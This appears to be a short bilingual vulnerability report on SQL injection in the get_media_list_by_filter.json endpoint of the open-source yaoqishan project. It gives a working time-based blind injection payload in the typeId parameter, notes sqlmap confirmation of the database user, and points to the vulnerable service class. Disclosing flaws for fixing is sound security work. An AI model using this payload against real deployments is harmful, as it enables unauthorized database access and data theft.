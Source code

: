 SQL injection vulnerability exists in yaoqishan master

yaoqishan系统get_media_list_by_filter.json接口存在SQL注入

The get_media_list_by_filter.json interface of the yaoqishan has SQL injection vulnerability.

github: https://github.com/user-xiangpeng/yaoqishan

Affected version: master

releases：https://github.com/user-xiangpeng/yaoqishan/archive/refs/heads/master.zip

Payload:
```
 http://192.168.8.136:8080/api/get_media_list_by_filter.json?typeId=1' AND (SELECT 7689 FROM (SELECT(SLEEP(5)))sgUi) AND 'CwMf'='CwMf&filterArr=1&pageNum=1&pageSize=100
```
Use sqlmap for verification, and retrieve all the current_user.

使用sqlmap验证，跑出当前用户：

![image](https://github.com/user-attachments/assets/a8388211-4342-4d07-a778-2e91cf18b68f)

The getMediaLisByFilter interface in ApiAction calls the listByFilter method from MediaInfoService to query medialist.

![image](https://github.com/user-attachments/assets/4269b215-5013-4655-afa0-3321e4d60cc8)

![image](https://github.com/user-attachments/assets/ad1b4af0-0c1d-4ccd-952b-bf547e262309)

cn/javaex/yaoqishan/service/media_info/MediaInfoService.java
